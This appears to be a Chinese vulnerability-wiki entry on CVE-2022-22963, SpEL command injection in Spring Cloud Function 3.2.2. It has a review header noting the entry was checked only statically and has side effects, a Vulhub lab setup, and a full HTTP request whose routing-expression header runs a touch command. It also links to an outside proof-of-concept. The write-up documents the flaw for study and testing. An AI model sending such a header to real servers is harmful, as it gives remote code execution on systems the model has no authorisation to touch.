


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：仅实验3.2.2，无影响范围/安全版本表；需routing功能可达

代码与实验材料：uppercase基线、完整4字节body与touch验证清楚；写文件需清理

来源证据范围：Tanzu官方公告/commit、原PoC，较好

- **事实待核（1）**：缺标准化版本/修复章节；依据：只有实验3.2.2，不能直接推所有CloudFunction版本；未写安全分支。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **操作与副作用边界（2）**：示例Host与写入副作用；依据：Host:y:8080不一致，touch/tmp/success未清理。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring Cloud Function SpEL 表达式命令注入 CVE-2022-22963

## 漏洞描述

Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

参考链接：

- https://tanzu.vmware.com/security/cve-2022-22963
- https://mp.weixin.qq.com/s/onYJWIESgLaWS64lCgsKdw
- https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f

## 环境搭建

Vulhub 执行如下命令启动一个使用 Spring Cloud Function 3.2.2 编写的服务器：

```
docker-compose up -d
```

服务启动后，执行 `curl http://your-ip:8080/uppercase -H "Content-Type: text/plain" --data-binary test` 即可执行 `uppercase` 函数，将输入字符串转换成大写。

## 漏洞复现

发送如下数据包，`spring.cloud.function.routing-expression` 头中包含的 SpEL 表达式将会被执行：

```
POST /functionRouter HTTP/1.1
Host: y:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```




`touch /tmp/success` 已经成功被执行：




## 漏洞 POC

- Spring-cloud-function-SpEL-RCE：https://github.com/chaosec2021/EXP-POC/tree/main/Spring-cloud-function-SpEL-RCE


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
